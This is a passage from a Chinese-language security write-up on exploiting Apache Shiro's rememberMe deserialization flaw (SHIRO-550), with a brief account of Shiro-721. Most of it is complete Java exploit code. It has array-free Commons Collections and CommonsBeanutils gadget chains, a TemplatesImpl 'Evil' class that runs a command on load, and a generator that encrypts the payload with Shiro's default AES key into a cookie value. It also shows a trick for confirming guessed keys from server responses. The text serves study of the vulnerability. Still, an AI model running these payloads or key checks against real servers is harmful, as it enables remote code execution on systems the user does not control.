    }
}
```

却抛出一个异常：

```java
Unable to load class named [[Lorg.apache.commons.collections.Transformer;]
```

也就是说没办法成功的加载到Transformer这个类。原因在于我们之前提到的Shiro在反序列化读取输入流时没有用我们常规的ObjectInputStream而是用了ClassResolvingObjectInputStream.其重写了`resolveClass`方法

```java
@Override
protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException, ClassNotFoundException {
    try {
        return ClassUtils.forName(osc.getName());
    } catch (UnknownClassException e) {
        throw new ClassNotFoundException("Unable to load ObjectStreamClass [" + osc + "]: ", e);
    }
}
```

resolveClass 是反序列化中用来查找类的方法，简单来说，读取序列化流的时候，读到一个字符串形式的类名，需要通过这个方法来找到对应的 java.lang.Class 对象。而区别于我们默认的`resolveClass()`方法（使用了`Class.forName()`来找到Class），他使用了自定义的`ClassUtils.forName()`来搜寻Class对象。这里背后的调用关系其实还非常复杂（涉及到了Tomcat的一些机制），这里我就先不研究了。具体可以去参考这两位师傅的文章：

[强网杯“彩蛋”——Shiro 1.2.4(SHIRO-550)漏洞之发散性思考](https://blog.zsxsoft.com/post/35)

[Shiro-1.2.4-RememberMe 反序列化踩坑深入分析](https://xz.aliyun.com/t/7950#toc-3)

直接引用他人的结论：Shiro 加载 Class 最终调用的是 `Tomcat` 下的 `webappclassloader`，该类会使用 `Class.forName()` 加载数组类，但是使用的 classloader 是 `URLClassLoader`，只会加载 `tomcat/bin`、`tomcat/lib`、`jre/lib/ext` 下面的类数组，无法加载三方依赖 jar 包。总之，**如果反序列化流中包含非 Java 自身的数组，则会出现无法加载类的错误**。

对这个问题的解决，一个方案就是采用JRMP解决（[Shiro-1.2.4-RememberMe 反序列化踩坑深入分析](https://xz.aliyun.com/t/7950#toc-3)，[Pwn a CTF Platform with Java JRMP Gadget](https://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html)），但是由于我目前还没学到JRMP，就先不去探究这种攻击方法了。

### 无数组类CC链

首先我们来回忆下之前我们CC6的POC

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(
  new Transformer[]{new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                    new Object[]{"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},new Object[]{null, null}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
HashMap<Object, Object> hashMap = new HashMap<>();
Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);
TiedMapEntry mapentry = new TiedMapEntry(new HashMap(), 'a');
hashMap.put(mapentry,'b');
Field mapfield = TiedMapEntry.class.getDeclaredField("map");
mapfield.setAccessible(true);
mapfield.set(mapentry,lazymap);
serialize(hashMap);
unserialize();
```

我们之所以要用LazyMap的原因是因为LazyMap的get方法中会执行transform方法：

```java
public Object get(Object key) {
  // create value for key if key is not currently in the map
  if (map.containsKey(key) == false) {
    Object value = factory.transform(key);
    map.put(key, value);
    return value;
  }
  return map.get(key);
}
```

通过LazyMap.decorate又可以成功给factory属性进行赋值进而实现命令执行，但是我们注意到，get()方法其实还接受一个参数key并将其作为参数传递给了transform()方法，只不过之前我们不关心这个key的原因是我们在构造ChainedTransformer的时候已经利用ConstantTransformer将我们的ChainedTransformer变成对参数不敏感的了。

而实际上这里当get()方法参数可控时我们是可以不需要ConstantTransformer的：

```java
ChainedTransformer chainedTransformer1 = new ChainedTransformer(new Transformer[]{
          new ConstantTransformer(Runtime.class),
          new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[ {"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
          new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
chainedTransformer1.transform("123");
                                                                                                 
等价于：
                                                                                                 
ChainedTransformer chainedTransformer2 = new ChainedTransformer(new Transformer[]{
          new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[ {"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
          new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})}); HashMap<Object, Object> hashMap = new HashMap<>();
Map lazymap = LazyMap.decorate(hashMap, chainedTransformer2);
lazymap.get(Runtime.class);                                                                                   
```

而我们追根溯源，CC6中lazymap的参数来源于TiedMapEntry传递的第二个参数（在我们原有POC中为'a'）：

```java
public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {
    private static final long serialVersionUID = -8453869361373831205L;   
    private final Map map;
    private final Object key;

    public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }

    public Object getKey() {
        return key;
    }

    public Object getValue() {
        return map.get(key);
    }
    
    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
}
```

所以对于CC6，我们可以把POC改造为：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(
  new Transformer[]{new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                    new Object[]{"getRuntime",null}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},new Object[]{null, null}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})});
HashMap<Object, Object> hashMap = new HashMap<>();
Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);
TiedMapEntry mapentry = new TiedMapEntry(new HashMap(), Runtime.class);
hashMap.put(mapentry,'b');
Field mapfield = TiedMapEntry.class.getDeclaredField("map");
mapfield.setAccessible(true);
mapfield.set(mapentry,lazymap);
serialize(hashMap);
unserialize();
```

以上相当于铺垫，意味着通过LazyMap和TiedMapEntry，其实可以实现对transform方法的可控传参，也就可以省去ConstantTransformer了（这里可以回忆下为什么我们CC1中要引入ConstantTransformer）。

不过前面兜兜转转了这么久，还是没有避免使用Transformer[]。不要急，再来看下我们前面CC3构造的一种POC：

```java
TemplatesImpl template = new TemplatesImpl();
setField("_name",template,"Von");
setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/CC3/Evil.class"))});
setField("_tfactory",template,new TransformerFactoryImpl());
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{new ConstantTransformer(template), new InvokerTransformer("newTransformer", null, null)});
HashMap<Object, Object> hashMap = new HashMap<>();
Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);
TiedMapEntry mapentry = new TiedMapEntry(new HashMap(), 'a');
hashMap.put(mapentry,'b');
Field mapfield = TiedMapEntry.class.getDeclaredField("map");
mapfield.setAccessible(true);
mapfield.set(mapentry,lazymap);
serialize(hashMap);
unserialize();
```

在CC3中，我们的ChainedTransformer中只有两个Transformer（一个是ConstantTransformer，另一个 InstantiateTransformer），假如我们用上面的方法省去一个ConstantTransformer的话，那么就只有一个InstantiateTransformer了，也就可以不用Transformer数组了。POC如下：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException, IOException, NoSuchFieldException, IllegalAccessException {
        System.out.println(tob64(ccshiro()));
    }


    private static byte[] ccshiro() throws IOException, NoSuchFieldException, IllegalAccessException {
        TemplatesImpl template = new TemplatesImpl();
        setField("_name",template,"Von");
        setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/Evil.class"))});
        setField("_tfactory",template,new TransformerFactoryImpl());
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazymap = LazyMap.decorate(new HashMap(), invokerTransformer);
        TiedMapEntry mapentry = new TiedMapEntry(new HashMap(), template);
        hashMap.put(mapentry,'b');
        Field mapfield = TiedMapEntry.class.getDeclaredField("map");
        mapfield.setAccessible(true);
        mapfield.set(mapentry,lazymap);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(hashMap);
        oos.flush();
        return bos.toByteArray();
    }

    private static String tob64(byte[] scode) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException {
        byte[] keyBytes = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        SecretKeySpec keySpec = new SecretKeySpec(keyBytes, "AES");
        byte[] iv = new byte[16];
        new SecureRandom().nextBytes(iv);
        IvParameterSpec ivSpec = new IvParameterSpec(iv);
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
        byte[] encryptedData = cipher.doFinal(scode);
        byte[] concatenatedArray = new byte[iv.length + encryptedData.length];
        System.arraycopy(iv, 0, concatenatedArray, 0, iv.length);
        System.arraycopy(encryptedData, 0, concatenatedArray, iv.length, encryptedData.length);
        return Base64.getEncoder().encodeToString(concatenatedArray);
    }

    public static void setField(String fieldname,Object obj,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class objClassClass = obj.getClass();
        Field declaredField = objClassClass.getDeclaredField(fieldname);
        declaredField.setAccessible(true);
        declaredField.set(obj,value);
    }
}
```

Evil类定义为：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

注意：其实TemplatesImpl的利用方式中还是存在数组形式的，byte[]数组用于存储evil class。但是在tomcat 7及以上的环境下，java的原生数据类型的数组还原不影响反序列化，只针对对象级别的数组还原。而tomcat6的实现方式直接不允许数组类型的还原，也就是说该利用链在tomcat6的环境下是成功不了的。

## Shiro无依赖利用链

当然上面的利用是建立在目标环境配置了CC的前提下的（P神的环境中在pom.xml中配置了CC依赖），如果目标环境只配置了Shiro，我们是否还有无其他依赖的利用链来实现代码执行呢，答案自然是有的，原因就是Shiro默认安装了Commons Beanutils，而我们之前学习过Commons Beanutils是存在反序列化利用链的。

那么问题来了，直接使用之前的CB链的POC进行攻击可以成功吗？答案是不能的。

原因是因为我们之前的POC中：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class main {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, TransformerConfigurationException, InvocationTargetException, NoSuchMethodException, ClassNotFoundException {
        TemplatesImpl template = new TemplatesImpl();
        setField("_name",template,"Von");
        setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/luyanchen/Evil.class"))});
        setField("_tfactory",template,new TransformerFactoryImpl());
        BeanComparator beanComparator = new BeanComparator("outputProperties");
        PriorityQueue priorityQueue = new PriorityQueue(beanComparator);
        setField("size",priorityQueue,2);
        setField("queue",priorityQueue,new Object[]{template,template});
        serialize(priorityQueue);
        unserialize();
    }

    public static void setField(String fieldname,Object obj,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class targetclass = obj.getClass();
        Field declaredField = targetclass.getDeclaredField(fieldname);
        declaredField.setAccessible(true);
        declaredField.set(obj,value);
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
        oos.writeObject(obj);
    }

    public static Object unserialize() throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.bin")));
        Object obj = ois.readObject();
        return obj;
    }
}
```

用到了`org.apache.commons.beanutils.BeanComparator`这个类，这个类又依赖于`org.apache.commons.collections.comparators.ComparableComparator`

```java
public BeanComparator( String property ) {
  this( property, ComparableComparator.getInstance() );
}

public BeanComparator( String property, Comparator comparator ) {
  setProperty( property );
  if (comparator != null) {
    this.comparator = comparator;
  } else {
    this.comparator = ComparableComparator.getInstance();
  }
}
```

后者是commonscollections包的内容，CB1.9.0及以后后CB依赖了CC（我们之前研究CB时用了CB 1.9.2），可惜的是在Shiro 1.2.4中Shiro依赖的CB是1.8.3的版本，CB1.8.3并没有直接依赖CC，而是只包含了CB的一些类（很可惜ComparableComparator并不在其中）

从代码中可以看到ComparableComparator主要被用在了构造方法里面为comparator属性赋值，我们之前定义创建BeanComparator对象时实际上用的是他第一个构造方法，而实际上我们可以利用第二个构造方法，自己指定一个comparator对象，这样的话不会进入else语句，也就不会调用到ComparableComparator导致报错了。

这里我们传入的对象需要满足两个条件：

1. 实现了Comparator和Serializable接口
2. Java,CB还是Shiro自带的

这里我写了一个简单的脚本搜寻java中有哪些可以利用的类

```java
import java.io.IOException;
import java.io.Serializable;

import java.util.ArrayList;
import java.util.Comparator;
import org.springframework.core.io.Resource;
import org.springframework.core.io.support.PathMatchingResourcePatternResolver;
import org.springframework.core.type.ClassMetadata;
import org.springframework.core.type.classreading.SimpleMetadataReaderFactory;

public class Unseri {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        for (String cls : getAllcls(getPubcls("java"))) {
            Class<?> aClass = Class.forName(cls);
            boolean isComparator = Comparator.class.isAssignableFrom(aClass);
            boolean isSerializable = Serializable.class.isAssignableFrom(aClass);
            if (isComparator && isSerializable){
                System.out.println(cls);
            }
        }
    }

    public static ArrayList<String> getPubcls(String pac) throws IOException, ClassNotFoundException {
        PathMatchingResourcePatternResolver resolver = new PathMatchingResourcePatternResolver();
        Resource[] resources = resolver.getResources(String.format("classpath*:%s/**/*.class", pac.replace('.','/')));
        ArrayList<String> clsname = new ArrayList<String>();
        for(Resource res :resources) {
            ClassMetadata metadata = new SimpleMetadataReaderFactory().getMetadataReader(res).getClassMetadata();
            String clsName = metadata.getClassName();
            Class<?> cls = Class.forName(clsName);
            clsname.add(cls.getName());
        }
        return clsname;
    }

    public static ArrayList<String> getAllcls(ArrayList<String> publs) throws ClassNotFoundException {
        ArrayList<String> allList = new ArrayList<String>(publs);
        for (String cls : publs) {
            Class<?> aClass = Class.forName(cls);
            if (!cls.contains("$")){
                Class[] innerclas = aClass.getDeclaredClasses();
                for (Class innercla : innerclas) {
                    String innename = innercla.getName();
                    if (!publs.contains(innename)) {
                        allList.add(innename);
                    }
                }
            }
        }
        return allList;
        }
    }
```

发现有以下三个类可以利用

```java
java.lang.String$CaseInsensitiveComparator
java.util.Collections$ReverseComparator2
java.util.Collections$ReverseComparator
```

他们都是私有内部类，我们以CaseInsensitiveComparator为例进行构造

```java
public static final Comparator<String> CASE_INSENSITIVE_ORDER = new CaseInsensitiveComparator();
```

可以看到，我们只需要通过`java.lang.String.CASE_INSENSITIVE_ORDER`就可以获取到一个CaseInsensitiveComparator对象，结合原有的攻击链，POC为：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import javax.xml.transform.TransformerConfigurationException;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.PriorityQueue;

public class Test {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, TransformerConfigurationException, InvocationTargetException, NoSuchMethodException, ClassNotFoundException, InvalidAlgorithmParameterException, NoSuchPaddingException, IllegalBlockSizeException, NoSuchAlgorithmException, BadPaddingException, InvalidKeyException {
        System.out.println(tob64(cb()));
    }

    public static byte[] cb() throws NoSuchFieldException, IllegalAccessException, IOException {
        TemplatesImpl template = new TemplatesImpl();
        setField("_name",template,"Von");
        setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/Evil.class"))});
        setField("_tfactory",template,new TransformerFactoryImpl());
        BeanComparator beanComparator = new BeanComparator("outputProperties",String.CASE_INSENSITIVE_ORDER);
        PriorityQueue priorityQueue = new PriorityQueue(beanComparator);
        setField("size",priorityQueue,2);
        setField("queue",priorityQueue,new Object[]{template,template});
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(priorityQueue);
        oos.flush();
        return bos.toByteArray();
    }

    private static String tob64(byte[] scode) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException {
        byte[] keyBytes = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        SecretKeySpec keySpec = new SecretKeySpec(keyBytes, "AES");
        byte[] iv = new byte[16];
        new SecureRandom().nextBytes(iv);
        IvParameterSpec ivSpec = new IvParameterSpec(iv);
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
        byte[] encryptedData = cipher.doFinal(scode);
        byte[] concatenatedArray = new byte[iv.length + encryptedData.length];
        System.arraycopy(iv, 0, concatenatedArray, 0, iv.length);
        System.arraycopy(encryptedData, 0, concatenatedArray, iv.length, encryptedData.length);
        return Base64.getEncoder().encodeToString(concatenatedArray);
    }

    public static void setField(String fieldname,Object obj,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class targetclass = obj.getClass();
        Field declaredField = targetclass.getDeclaredField(fieldname);
        declaredField.setAccessible(true);
        declaredField.set(obj,value);
    }

    public static void serialize(Object obj) throws IOException, IOException {
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
        oos.writeObject(obj);
    }

    public static Object unserialize() throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.bin")));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## 特征检测

首先对于判断环境是否使用了Shiro，我们可以在cookie中的rememberMe字段任意赋值，如果响应包中存在rememberMe=deleteMe字段，则我们可以确认目标环境使用了Shiro



对于有些修改了默认密钥的框架，我们可能需要对密钥结合社会工程学进行爆破，那么这种情况下我们要怎么确定密钥是否正确呢，一种方法自然是利用dnslog看是否可以接受到dns请求，但是这种方法终归还是不便些，我们能不能直接从response里面确定密钥是否正确呢。

我们再次回到解密流程：

我们一路跟decrypt函数可以发现最后的解密实际上是调用了`org.apache.shiro.crypto.JcaCipherService`下的crypt方法：

```java
private byte[] crypt(javax.crypto.Cipher cipher, byte[] bytes) throws CryptoException {
  try {
    return cipher.doFinal(bytes);
  } catch (Exception e) {
    String msg = "Unable to execute 'doFinal' with cipher instance [" + cipher + "].";
    throw new CryptoException(msg, e);
  }
}
```

当密钥错误时，那显然会抛出一个异常，而在我们最前面的getRememberedPrincipals方法中：

```java
public PrincipalCollection getRememberedPrincipals(SubjectContext subjectContext) {
  PrincipalCollection principals = null;
  try {
    byte[] bytes = getRememberedSerializedIdentity(subjectContext);
    //SHIRO-138 - only call convertBytesToPrincipals if bytes exist:
    if (bytes != null && bytes.length > 0) {
      principals = convertBytesToPrincipals(bytes, subjectContext);
    }
  } catch (RuntimeException re) {
    principals = onRememberedPrincipalFailure(re, subjectContext);
  }

  return principals;
}
```

当捕捉到异常后，会执行onRememberedPrincipalFailure()方法，跟下这个方法：

```java
protected PrincipalCollection onRememberedPrincipalFailure(RuntimeException e, SubjectContext context) {
  if (log.isDebugEnabled()) {
    log.debug("There was a failure while trying to retrieve remembered principals.  This could be due to a " +
              "configuration problem or corrupted principals.  This could also be due to a recently " +
              "changed encryption key.  The remembered identity will be forgotten and not used for this " +
              "request.", e);
  }
  forgetIdentity(context);
  //propagate - security manager implementation will handle and warn appropriately
  throw e;
}
```

发现调用了forgetIdentity方法，继续跟：

```java
private void forgetIdentity(HttpServletRequest request, HttpServletResponse response) {
  getCookie().removeFrom(request, response);
}
```

发现调用了removeFrom()方法，继续跟下去：

```java
public void removeFrom(HttpServletRequest request, HttpServletResponse response) {
  String name = getName();
  String value = DELETED_COOKIE_VALUE;
  String comment = null; //don't need to add extra size to the response - comments are irrelevant for deletions
  String domain = getDomain();
  String path = calculatePath(request);
  int maxAge = 0; //always zero for deletion
  int version = getVersion();
  boolean secure = isSecure();
  boolean httpOnly = false; //no need to add the extra text, plus the value 'deleteMe' is not sensitive at all

  addCookieHeader(response, name, value, comment, domain, path, maxAge, version, secure, httpOnly);

  log.trace("Removed '{}' cookie by setting maxAge=0", name);
}
```

这里其实就在进行给cookie增加字段的操作了，DELETED_COOKIE_VALUE为一个常量，就是我们前面熟悉的deleteMe.

而这里的name来自于getName()，跟一下会发现其实是在创建CookieRememberMeManager对象时就被赋值的

```java
public CookieRememberMeManager() {
    Cookie cookie = new SimpleCookie(DEFAULT_REMEMBER_ME_COOKIE_NAME);
    cookie.setHttpOnly(true);
    //One year should be long enough - most sites won't object to requiring a user to log in if they haven't visited
    //in a year:
    cookie.setMaxAge(Cookie.ONE_YEAR);
    this.cookie = cookie;
}
```

DEFAULT_REMEMBER_ME_COOKIE_NAME值为rememberMe，这也就是为什么当解密失败时会返回一个rememberMe=deleteMe的原因了。

但是这里其实还有一个问题，就是为什么我们密钥正确时发送请求返回包里仍然有rememberMe=deleteMe的标记呢？

这是因为其反序列化方法中，要求的返回类型是PrincipalCollection，而我们反序列化后得到的结果并没有继承PrincipalCollection，所以会抛出一个异常。

```java
protected PrincipalCollection deserialize(byte[] serializedIdentity) {
    return getSerializer().deserialize(serializedIdentity);
}
```

那么知道了原因解决方法也很简单，只要我们传入的对象是PrincipalCollection的实现类就OK了。

跑了下脚本发现shiro中继承了PrincipalCollection的类有：

```java
org.apache.shiro.subject.SimplePrincipalCollection
org.apache.shiro.subject.SimplePrincipalMap
```

以SimplePrincipalMap为例，其构造方法非常简单

```java
public SimplePrincipalCollection() {
}
```

因此只要我们序列化的对象直接是一个SimplePrincipalCollection()且密钥正确的情况下，回显中就不再有deleteMe啦！



# Shiro721（CVE-2019-12422）

在Shiro1.2.4后，Shiro修改了加密密钥的生成逻辑，从原来的:

```java
public AbstractRememberMeManager() {
    this.serializer = new DefaultSerializer<PrincipalCollection>();
    this.cipherService = new AesCipherService();
    setCipherKey(DEFAULT_CIPHER_KEY_BYTES);
}
```

变成了：

```java
public AbstractRememberMeManager() {
  this.serializer = new DefaultSerializer<PrincipalCollection>();
  AesCipherService cipherService = new AesCipherService();
  this.cipherService = cipherService;
  setCipherKey(cipherService.generateNewKey().getEncoded());
}
```

这个方法跟进去看会发现就是随机生成了一个key，由于是128 bit的所以爆破也不现实。

但在1.2.4 < Shiro <= 1.4.1中仍然存在被Padding Oracle Attack的可能性，Padding Oracle Attack的原理不在本篇中讲。可以参考这篇文章，写的非常好：[CBC字节翻转攻击&Padding Oracle Attack原理解析](https://goodapple.top/archives/217)

我们来看Padding Oracle Attack 的攻击条件：

1. **首先那肯定是使用CBC模式进行加密**

2. **攻击者能够获得密文，以及密文对应的初始化向量iv**

3. **攻击者能够触发密文的解密过程，并且能够知道密文的解密结果是否正确**

Shiro 1.2.4以后只是修改了密钥的生成逻辑，而其他加密相关的流程完全没有改变。那么首先第一个条件肯定是满足的，而第二个条件前面的分析也知道，密文和padding都是我们可控的。

而3中不管是使用dnslog也好还是我们上面提到的利用deleteMe作为回显判断也好，当解密失败时总有布尔条件触发且被攻击者知晓，因此Shiro符合被Padding Oracle Attack的条件。

不过这个漏洞实际中被利用的可能性比较低，因为我们要攻击的bytes越长，需要的攻击时间就越长（平均来说攻击一个字节需要尝试128次，而以我们前面生成的CB链的POC来说有1652个字节，平均需要攻击211456次......），到最后几乎是不可接受的，因此在本文中也就不复现了。至于其修复方法也非常简单粗暴，从Shiro 1.4.2开始Shiro在此的加密模式改为了GCM模式，修复了这一漏洞。

# 参考文章

P神java安全漫谈

[另一种shiro检测方式](https://mp.weixin.qq.com/s?__biz=MzIzOTE1ODczMg==&mid=2247485052&idx=1&sn=b007a722e233b45982b7a57c3788d47d&scene=21#wechat_redirect)


